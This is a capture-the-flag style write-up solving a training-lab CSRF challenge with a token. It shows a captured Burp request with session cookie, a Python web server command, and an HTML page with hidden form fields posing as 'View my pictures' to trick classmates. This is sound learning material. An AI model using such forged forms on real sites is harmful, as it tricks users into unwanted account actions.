

# Challenge
To complete this challenge, you must get your CSRF counter above 0. Once The request to increment your counter is as follows;  
  
```http
POST /user/csrfchallengethree/plusplus  
```
With the following parameters; `userid=exampleId & csrfToken=exampleToken` 

The csrfToken parameter is generated dynamically for each user upon user interaction with the request described above. exampleId is the ID of the user who's CSRF counter is being incremented. Your ID is: `47887913a0f9573d479fbd600fa02ac6ef0575bd`
Any user than you may increment your counter for this challenge, except you. Exploit the CSRF vulnerability in the request described above against other users to complete this challenge. Once you have successfully CSRF'd another Users, the solution key will appear just below this message.

---
# Resolve
Same as CSRF-2 but now we need to provide `csrfToken`.
Get the token at source page.
- The link:
```http
https://10.63.253.66/user/csrfchallengethree/plusplus?userId=47887913a0f9573d479fbd600fa02ac6ef0575bd&csrfToken=-54564521548659734870751374363061853652
```

But this time if we send the url direct to another user, it not work.

We tried to modified the payload a bit:
```burp
POST /user/csrfchallengethree/plusplus HTTP/1.1
Host: 10.63.253.66
Cookie: JSESSIONID=AC026E486EA2A193216C2FE25D61E78F; token=-106135689670907763362992216760065369864
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 103
Origin: https://10.63.253.66
Referer: https://10.63.253.66/challenges/z6b2f5ebbe112dd09a6c430a167415820adc5633256a7b44a7d1e262db105e3c.jsp
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

userid=47887913a0f9573d479fbd600fa02ac6ef0575bd&csrfToken=-54564521548659734870751374363061853652

```
We create a HTML file, start web server so other user can interactive.
Start web server:
```python
python -m http.server 80
```

And create the html file `csrf3.html` will be like this:

```html
<!doctype html>
<html>
<head>
	<title>Our Funky HTML Page</title>
	<meta name="description" content="Our first page">
	<meta name="keywords" content="html tutorial template">
</head>
<body>

	<form action="https://10.63.253.66/user/csrfchallengethree/plusplus" method="POST">
		<input type="hidden" name="userid" value="47887913a0f9573d479fbd600fa02ac6ef0575bd"/>
		<input type="hidden" name="csrfToken" value="-54564521548659734870751374363061853652"/>
		<input type="submit" value="View my pictures"/>
	</form>
</body>
</html>
```

Final, we will put the url of the HTML file to the link and share with classmate (or give direct to them to access).
```url
http://172.16.177.131/csrf3.html
```
After they access to your link then the challenge is solved.
